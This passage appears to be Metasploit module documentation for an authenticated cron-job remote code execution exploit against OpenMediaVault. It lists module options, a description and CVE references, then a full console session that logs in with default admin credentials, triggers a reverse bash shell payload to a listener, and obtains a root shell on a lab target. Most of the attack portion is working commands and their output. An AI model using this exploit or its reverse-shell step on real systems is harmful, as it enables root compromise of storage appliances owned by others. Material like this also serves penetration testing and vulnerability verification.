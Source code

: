 ```msf
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                      n on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  OpenMediaVault allows an authenticated user to create cron jobs as root on the system.
  An attacker can abuse this by sending a POST request via rpc.php to schedule and execute
  a cron entry that runs arbitrary commands as root on the system.
  All OpenMediaVault versions including the latest release 7.3.1-1 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2013-3632
  https://packetstormsecurity.com/files/178526
  https://attackerkb.com/topics/zl1kmXbAce/cve-2013-3632


View the full module info with the info -d command.
```
### openmediavault_7.0-32-amd64.iso appliance Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > check

[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] 192.168.201.6:80 - The target is vulnerable. Version 7.0.pre.32
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60814) at 2024-07-03 12:47:54 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
exit
```